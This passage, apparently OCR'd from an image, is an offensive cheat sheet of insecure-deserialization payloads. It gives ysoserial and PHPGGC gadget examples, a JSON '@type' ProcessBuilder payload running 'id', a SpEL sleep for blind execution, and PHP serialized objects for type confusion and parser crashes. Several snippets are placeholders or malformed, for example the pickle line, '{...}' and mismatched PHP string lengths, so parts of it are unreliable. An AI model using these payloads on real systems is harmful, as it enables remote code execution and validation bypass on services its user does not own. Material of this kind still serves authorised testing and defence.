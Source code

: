 ```java
// ysoserial - ProcessBuilder
Payload: `whoami`

// PHPGGC - SwiftMailer/Fwrite
Payload: `uname -a`

// JSON (Spring Boot)
{"@type":"java.lang.ProcessBuilder","command":["id"]}
```

---

**4. Time-Based Blind Execution**  
Use sleep/delay to confirm code execution.

```java
// Java
${T(java.lang.Thread).sleep(5000)}

// PHP
O:8:"Exploit":1:{s:4:"cmd";s:5:"sleep";}

// Python (Pickle)
pickle.loads with time.sleep(5)
```

---

**5. Logic Bypass via Type Confusion**  
Replace expected object type to bypass validation.

```php
// Replace expected `User` with `stdClass`
O:8:"stdClass":1:{...}

// JSON
{"@type":"com.fasterxml.jackson.databind.node.ObjectNode","x":1}
```

---

**6. Malformed Blob Crash**  
Trigger parser exceptions with corrupted payloads.

```java
// Truncated blob
Payload: `rO0A....`

// PHP
O:8:"Broken":3:{s:4:"x";i:2; => malformed structure
```

---

**7. Unsafe XML Deserialization**  
Inject objects via XML parsers that support class loading.
